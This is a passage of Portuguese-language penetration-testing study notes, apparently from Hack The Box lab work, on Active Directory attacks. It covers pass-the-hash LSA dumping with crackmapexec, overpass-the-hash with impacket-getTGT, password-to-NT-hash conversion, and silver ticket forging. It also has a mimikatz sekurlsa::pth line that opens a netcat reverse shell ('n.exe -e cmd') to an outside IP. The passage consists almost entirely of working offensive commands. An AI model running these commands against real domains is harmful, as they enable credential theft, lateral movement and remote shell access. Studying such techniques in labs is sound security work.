 Crackmapexec

    crackmapexec smb 192.168.175.202 -u Administrator -H "<nt_hash>" --lsa

  
## Over pass the hash

O objetivo aqui é para obter um ticket Kerberos, pois caso utilizamos algum recurso que não suporte o NTLM como autenticação, temos a opção de utilizar o ticket kerberos como autenticação.

Para fazer esse tipo de ataque de maneira remota, pordemos utilizar o impacket:

Primeiro requisitamos o TGT:

    impacket-getTGT -dc-ip <IP_do_DC> domain/user:password

ou

    impacket-getTGT -dc-ip <ip_dc> <domain/usuario> -hashes :<nt_hash>

Aqui teremos de [fazer a conversão da senha para o hash NT](#conversa-de-senha-em-texto-claro-para-nt-hash)

Aqui já teremos o .ccache e podemos carregar essa informação no Kali Linux da seguinte maneira:

    export KRB5NAME=/home/acosta/owncloud/Area_de_trabalho/estudos/hack_the_box/scrambled/Administrator.ccache

## Conversão de senha em texto claro para hash NT

```
iconv -f ASCII -t UTF-16LE &#x3C;(printf "<senha>") | openssl dgst -md4
```

ou

```
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "<senha>".encode("utf-16le")).digest()))'
```


Para conduzir esse ataque, primeiro temos que injetar na memória do nosso processo a credencial do nosso usuário administrativo, por exemplo:

    sekurlsa::pth /user:user1 /domain:home.lab /ntlm:ae974876d974abd805a989ebead86846 /run:".\n.exe -e cmd 192.168.0.76 8089"

Depois disso, temos de fazer uma requisição de rede de algum serviço para carregar o ticket kerberos na memória

    net use \\dc01.home.lab

**Fica como observação que não consegui reproduzir isso no laboratório**

## Silver Ticket

Impacket

    impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain domain.name -domain-sid <domain_sid> -nthash <ntlm_da_senha_do_spn> -dc-ip <hostname_dc> adm
